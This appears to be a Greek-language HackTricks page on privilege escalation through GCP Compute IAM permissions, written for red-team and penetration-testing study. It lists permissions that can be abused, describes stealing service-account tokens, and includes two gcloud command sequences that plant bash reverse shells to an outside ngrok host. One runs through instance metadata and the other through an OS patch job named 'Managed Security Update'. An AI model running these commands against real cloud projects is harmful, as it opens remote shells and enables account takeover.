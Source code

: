 # GCP - Compute Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις ανύψωσης προνομίων που απαιτούν να τροποποιήσετε τα μεταδεδομένα της παρουσίας (όπως η προσθήκη νέων χρηστών και SSH κλειδιών) είναι **αναγκαίο να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την παρουσία**, ακόμη και αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτή την άδεια μπορείτε να **τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **παρουσίας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή να **δημιουργήσετε** έναν **νέο χρήστη με δικαιώματα sudo**. Επομένως, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε VM παρουσία και να κλέψετε τον GCP Service Account με τον οποίο τρέχει η παρουσία.\
Περιορισμοί:

* Σημειώστε ότι οι GCP Service Accounts που τρέχουν σε VM παρουσίες από προεπιλογή έχουν **πολύ περιορισμένο πεδίο**
* Θα χρειαστεί να είστε **σε θέση να επικοινωνήσετε με τον SSH** διακομιστή για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτή την άδεια ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτή την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την παρουσία:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά σε συγκεκριμένες περιπτώσεις αντί για ολόκληρο το έργο. **Οι ίδιες εκμεταλλεύσεις και περιορισμοί όπως για την προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους η άδεια θα σας επιτρέψει να **παραχωρήσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να κλιμακώσετε τα προνόμια εκμεταλλευόμενοι αυτές.

### **`compute.instances.osLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Δεν **θα έχετε δικαιώματα root** μέσα στην περίπτωση.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στην VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Θα έχετε **δικαιώματα root** μέσα στην περίπτωση.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στην VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε μια εικονική μηχανή με ανατεθειμένο Service Account και να κλέψετε το token** του service account αποκτώντας πρόσβαση στα μεταδεδομένα για να κλιμακώσετε τα προνόμια σε αυτό.

Το σενάριο εκμετάλλευσης για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Εάν έχετε τις άδειες **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** μπορείτε να δημιουργήσετε μια [**εργασία patch ή ανάπτυξη**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να κινηθείτε οριζόντια στο περιβάλλον και να αποκτήσετε εκτέλεση κώδικα σε όλες τις υπολογιστικές περιπτώσεις εντός ενός έργου.

Σημειώστε ότι αυτή τη στιγμή **δεν χρειάζεστε άδεια `actAs`** πάνω στο SA που είναι συνδεδεμένο στην περίπτωση.

Εάν θέλετε να εκμεταλλευτείτε αυτό χειροκίνητα, θα χρειαστεί να δημιουργήσετε είτε μια [**εργασία patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ή** [**ανάπτυξη**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Για μια εργασία patch εκτελέστε:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Για να αναπτύξετε μια ανάπτυξη διορθώσεων:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Το εργαλείο [patchy](https://github.com/rek7/patchy) θα μπορούσε να έχει χρησιμοποιηθεί στο παρελθόν για την εκμετάλλευση αυτής της κακής ρύθμισης (αλλά τώρα δεν λειτουργεί).

**Ένας επιτιθέμενος θα μπορούσε επίσης να το εκμεταλλευτεί για επιμονή.**

### `compute.machineImages.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για την εικόνα υπολογιστή.

### `compute.snapshots.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για ένα στιγμιότυπο δίσκου.

### `compute.disks.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για έναν δίσκο.

### Παράκαμψη Πεδίων Πρόσβασης

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τα πεδία πρόσβασης**](../).

### Τοπική Κλιμάκωση Δικαιωμάτων σε GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
